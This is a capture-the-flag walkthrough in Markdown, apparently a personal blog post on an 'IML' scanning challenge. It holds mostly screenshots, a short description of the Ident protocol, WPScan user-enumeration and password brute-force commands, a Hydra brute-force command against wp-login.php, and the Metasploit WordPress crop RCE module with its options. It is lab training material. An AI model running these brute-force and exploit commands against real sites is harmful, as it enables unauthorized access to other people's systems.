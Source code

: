 ```yaml
---
date: 2025-04-24
categories: [CTF, IML]
title: "IML - Scanning: Demonstrate Your Skills"
tags: ['hydra', 'privilege escalation', 'rce']

description: "Scanning Demonstrate Your Skills - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Scanning: Demonstrate Your Skills

The Ident Protocol is used over the Internet to associate a TCP connection with a specific user. Originally designed to aid in network management and security, it operates by allowing a server to query a client on port 113 to request information about the user of a particular TCP connection

![image1](../resources/2de1db59dbc6472f8af9f6f3cde5f59c.png)


![image2](../resources/eb191f5debd54a5db7cf0286d08a120e.png)

Target 2


![image3](../resources/5d4c5931a68b4f7d8a91d7ccf3d5696a.png)


![image4](../resources/672f8c3f4808473f972ee83b83c13bc4.png)


![image5](../resources/a5832b28ee664540b32437a943460d33.png)


![image6](../resources/f5c320e8aa7c49d79c045e944fb7e237.png)

![image7](../resources/c05da0e0c82749d5b1698bdef6ef7eba.png)


![image8](../resources/1d48218e63674b3b84ec2f403d558d7a.png)


![image9](../resources/69c33c6a221d4c348cb41d600e7faa0e.png)


![image10](../resources/e90800abb2994c9e9af2e5235781c3a4.png)


```bash
#Run a Basic WPScan
wpscan --url http://yourwebsite.com

#Scan for Themes and Plugins
wpscan --url http://yourwebsite.com --enumerate at
wpscan --url http://yourwebsite.com --enumerate ap

#Enumerate WordPress Users
wpscan --url http://yourwebsite.com --enumerate u

#Bruteforce a WordPress Login Password
wpscan --url http://yoursite.com --passwords path-to-wordlist --usernames <list of usernames or just one>

#Bruteforce a WordPress Login Password - Hydra
hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt <IP_ADDRESS> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```

**<u>Wordpress 5.0 exploit</u>**

**Need a username and password to use**

msfconsole > multi/http/wp_crop_rce
Now just set the options (USERNAME, PASSWORD, RHOSTS, LHOST) and exploit

